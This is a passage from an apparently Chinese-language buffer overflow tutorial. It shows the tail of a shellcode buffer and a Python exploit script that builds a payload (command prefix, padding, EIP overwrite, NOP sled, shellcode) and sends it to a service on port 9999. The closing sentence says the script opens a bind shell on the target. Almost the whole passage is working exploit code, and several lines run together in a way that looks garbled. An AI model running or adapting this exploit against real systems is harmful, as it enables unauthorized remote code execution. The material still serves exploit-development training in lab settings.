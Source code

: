 ```
buf += "\x04\xd1\x3b\x74\x75\xf8\xff\x20\x25\x92\xd6\x48\xae"
buf += "\x62\xd6\x9c\x5b\x6a\x71\x4f\x7e\x97\xc1\x3f\x3e\x37"
buf += "\xaa\x55\xb1\x68\xca\x55\x1b\x01\x63\xa8\xa4\x2c\xcf"
buf += "\x25\x42\x44\x3f\x60\xdc\xf0\xfd\x57\xd5\x67\xfd\xbd"
buf += "\x4d\x0f\xb6\xd7\x4a\x30\x47\xf2\xfc\xa6\xcc\x11\x39"
buf += "\xd7\xd2\x3f\x69\x80\x45\xb5\xf8\xe3\xf4\xca\xd0\x93"
buf += "\x95\x59\xbf\x63\xd3\x41\x68\x34\xb4\xb4\x61\xd0\x28"
buf += "\xee\xdb\xc6\xb0\x76\x23\x42\x6f\x4b\xaa\x4b\xe2\xf7"
buf += "\x88\x5b\x3a\xf7\x94\x0f\x92\xae\x42\xf9\x54\x19\x25"
buf += "\x53\x0f\xf6\xef\x33\xd6\x34\x30\x45\xd7\x10\xc6\xa9"
buf += "\x66\xcd\x9f\xd6\x47\x99\x17\xaf\xb5\x39\xd7\x7a\x7e"
buf += "\x59\x3a\xae\x8b\xf2\xe3\x3b\x36\x9f\x13\x96\x75\xa6"
buf += "\x97\x12\x06\x5d\x87\x57\x03\x19\x0f\x84\x79\x32\xfa"
buf += "\xaa\x2e\x33\x2f"payload = ""
payload += trun
payload += "A" * offset
payload += eip
payload += nop
payload += buf
payload += "C" * (4099 - offset - len(eip) - len(nop) - len(buf))print "[+] Sending buffer (Size: %d)" % len(payload)s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(payload)    
s.close()
```

一旦我们运行了`final_trun.py`脚本，我们就可以成功地在目标系统上打开 bind shell。
